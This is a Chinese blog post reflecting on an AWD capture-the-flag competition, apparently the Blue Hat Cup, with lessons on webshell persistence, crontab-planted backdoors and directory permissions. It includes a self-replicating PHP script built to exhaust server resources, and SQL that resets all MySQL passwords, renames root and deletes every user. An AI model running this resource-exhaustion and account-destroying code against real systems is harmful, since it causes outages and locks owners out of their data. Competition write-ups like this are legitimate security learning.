 ```yaml
---
title: 蓝帽杯awd总结
tags: [awd]
description: awd经验总结
---
```


&emsp;&emsp;最近沉迷于学习verilog以及计算机底层的相关知识,已经很久没有搞安全了.突然有机会打一场向往已久的AWD令我很是期待.终于我和朴淳 国峰 兴致冲冲的来到了国家会议中心,好生气派.

![blue_hat1](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/blue_hat1.jpg?raw=true)

&emsp;&emsp;下午比赛刚开始,所有服务器直接宕机...不得不说奇安信这个做的不好.过了很久之后修好了,然后我们直接就被打懵了.一直疯狂掉分,直到挂上waf才稍有好转.总结一下学到的一点经验:  

### 关于进攻  

---  

&emsp;&emsp;反正这一次一下攻击都没有打,全程做防御.因为根本来不及代码审计,赛后问了一下对面的大佬怎么打的,他们说是thinkphp的cve,他们也就找到一个洞,然后就进了前十...可见赛前资料的准备有多么重要.另外就后门而言,见到了好几个特别骚的木马,当然不死马是最基础的,其实不死马能起作用主要是因为目录权限配置的有问题,主目录直接给了777肯定会被日啊.普通目录尽量别给写的权限.

&emsp;&emsp;还有一种马是base64加密马,然后添加crontab来写一句话木马.妈的这个是真的难受,我只能写shell一直删,还有就是一定要搅屎.我们有个nginx服务直接被删掉了,我都没发现有这个目录...然后服务一down开始疯狂掉分,我只好去偷别人的静态网页,诶,心里苦.  

&emsp;&emsp;关于搅屎,我痛定思痛,写了好几个搅屎棍:

- 无限复制:  

```php
<?php
    set_time_limit(0);
    ignore_user_abort(true);
    while(1){
        file_put_contents(randstr().'.php',file_get_content(__FILE__));
        file_get_contents("http://127.0.0.1/");
    }
?>
```

> 连名都是随机的,疯狂占资源,算是ddos吧  


- 改数据库密码:  

```sql
update mysql.user set authentication_string=PASSWORD('p4rr0t');# 修改所有用户密码
flush privileges;
UPDATE mysql.user SET User='aaaaaaaaaaaa' WHERE user='root'; 
flush privileges;
delete from mysql.user ;#删除所有用户
flush privileges;
```
&emsp;&emsp;当时比赛的时候没想起来...

- 各种crontab骚东西:  
